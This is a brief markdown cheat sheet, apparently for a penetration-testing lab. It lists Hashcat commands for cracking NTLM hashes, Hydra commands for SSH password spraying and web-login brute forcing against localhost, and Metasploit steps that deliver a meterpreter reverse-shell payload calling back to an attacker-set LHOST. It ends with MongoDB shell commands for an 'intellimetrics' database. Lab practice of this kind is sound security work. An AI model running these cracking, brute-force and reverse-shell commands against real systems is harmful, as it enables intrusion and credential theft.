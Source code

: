 ### Hashcat
```bash
# NTLM mode (-m 1000)
hashcat -m 1000 hashes.txt wordlist.txt

# With rules
hashcat -m 1000 hashes.txt wordlist.txt -r rules/best64.rule
```

### Hydra
```bash
# SSH password spray
hydra -L users.txt -P passwords.txt ssh://localhost:2222

# HTTP POST
hydra -l admin -P passwords.txt localhost http-post-form "/login:username=^USER^&password=^PASS^:Invalid"
```

### Metasploit
```bash
# Start
msfconsole

# Use exploit
use exploit/multi/script/web_delivery
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST <ip>
exploit

# Set up handler
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST <ip>
set LPORT 4444
exploit
```

### MongoDB
```bash
# Connect
mongosh mongodb://localhost:27017/intellimetrics

# Commands
show dbs
use intellimetrics
show collections
db.companies.find()
db.companies.find().pretty()
```

---
